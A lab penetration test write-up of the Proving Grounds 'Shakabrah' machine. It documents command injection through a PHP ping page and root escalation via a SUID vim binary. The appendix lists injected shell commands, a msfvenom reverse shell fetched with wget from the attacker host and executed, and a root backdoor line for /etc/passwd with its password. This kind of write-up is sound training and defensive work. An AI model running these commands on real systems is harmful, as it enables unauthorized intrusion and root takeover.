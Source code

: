 # Penetration Test Report for Proving Grounds - Shakabrah
- **Author:** Joey Melo
- **Date:** March 24, 2022
- **Client:** Proving Grounds
- **Host:** 192.168.88.86 (Shakabrah)

## Disclaimer
The following report is the solution of a challenge in a learning platform that has no association whatsoever with the author. Please consider this report as a rough simulation of what a real pentesting report looks like. Attempting to use the methodologies demonstrated in this report in unauthorized networks is ILLEGAL. The author is not responsible for improper use or unauthorized modifications of this information. The author assumes no liability for the use of information disclosed in this report. Any damage or loss that may result from improper use of the information contained in this report is the sole responsibility of the user and not the author. The author recommends safe practices and an ethical standpoint when working with clients and or with tools demonstrated in this report.

## Introduction
This penetration test report contains all efforts that were conducted in order to assess the security of Proving Grounds. This report contains all items that were used to penetrate and gain privileged access to the remote host(s). The purpose of this report is to showcase that the tester has a full understanding of penetration testing methodologies as well as the technical knowledge to perform professional cybersecurity assessments.

## Objectives
The objective of this assessment is to perform an internal penetration test against the Shakabrah network. The tester is tasked with following a methodical approach in obtaining access to the objective goals. This test should simulate an actual penetration test and how one would start from beginning to end, including the overall report.

## Executive Summary
The tester was tasked with performing an internal penetration test towards the Shakabrah network. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks similar to those of a hacker and attempt to infiltrate Proving Grounds's internal lab systems. The tester's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Proving Grounds.
When performing the internal penetration test, there were several alarming vulnerabilities that were identified on the Shakabrah network. When performing the attacks, the tester was able to gain access to the machine, primarily due to a misconfigured php file in the HTTP host which allows remote code execution. The host has been successfully exploited, and privileged access was gained in the machine.

## Recommendations
The tester recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future. One thing to remember is that these systems require frequent patching and, once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Assessment
## Service Enumeration
### Port Scan Results
- **TCP:** 22, 80
## Initial Access
### Vulnerability Explanation
The remote host is running a vulnerable php file in HTTP server. The php file does not sanitize user input, and a remote, unauthenticated attacker can exploit this vulnerability to obtain remote code execution in the host.
### Vulnerability Fix
Sanitize user input.
### Attack Walkthrough
During the enumeration phase, the tester identified an application running in the HTTP server executing the "ping" command.

![Connection tester on HTTP server](https://imgur.com/gUtTULu.png)

The tester attempted to bypass the "ping" command to obtain remote code execution and was able to leak the source code of the page. Upon inspection of the source code, the tester verified that the application had no input sanitization.

![Source code leaked](https://imgur.com/4tK9Vbs.png)

This vulnerability was exploited to obtain a stable remote shell in the system.
As proof of exploitation, the tester captured the *local.txt* flag.

![User flag](https://imgur.com/PAgFq3Z.png)

## Privilege Escalation
### Vulnerability Explanation
The remote host is running the "vim.basic" binary with the SUID bit set. An attacker can exploit this to read and/or write files in the system with elevated privileges.
### Vulnerability Fix
Disable the SUID bit in the "vim.basic" binary.
### Attack Walkthrough
After establishing a foothold on the target, the tester noticed the "vim.basic" binary running with "setuid" privileges.

![Enumerating SUID files](https://imgur.com/Dt16vHh.png)

The tester abused this configuration to insert a new user in the system with root privileges.
```bash
/usr/bin/vim.basic /etc/passwd
## Insert this line in the /etc/passwd
hacker:$1$uHZwZwph$rikHzUCidpo0hVGhTCtKx0:0:0:root:/root:/bin/bash
```

![Inserting hacker user](https://imgur.com/5T8tKtu.png)

## Post-Exploitation
As proof of post-exploitation, the tester captured the *proof.txt* flag.

![Root flag](https://imgur.com/d0W5rEU.png)

# Appendix A: Commands Issued
```bash
# Enumeration
sudo nmap -sC -sV -oN tcp_ports.nmap -p- 192.168.88.86

# HTTP Exploit
## In the HTTP page
; ls
; cat index.php
## In Kali
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=80 -f elf -o revshell.elf
python3 -m http.server 8000
nc -lvnp 80 # Only works listening on port 80
## In the HTTP page
; wget http://192.168.49.88/revshell.elf -O /tmp/revshell; chmod +x /tmp/revshell; /tmp/revshell

# Initial Access
cd /home/dylan
cat local.txt
ifconfig

# Privilege Escalation
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null > suids.txt
/usr/bin/vim.basic /etc/passwd
## In kali
openssl passwd -1
## Insert this line in the /etc/passwd
hacker:$1$uHZwZwph$rikHzUCidpo0hVGhTCtKx0:0:0:root:/root:/bin/bash
## In Shakabrah
su hacker # password="password"

# Post-Exploitation
cd /root
cat proof.txt
ifconfig
```
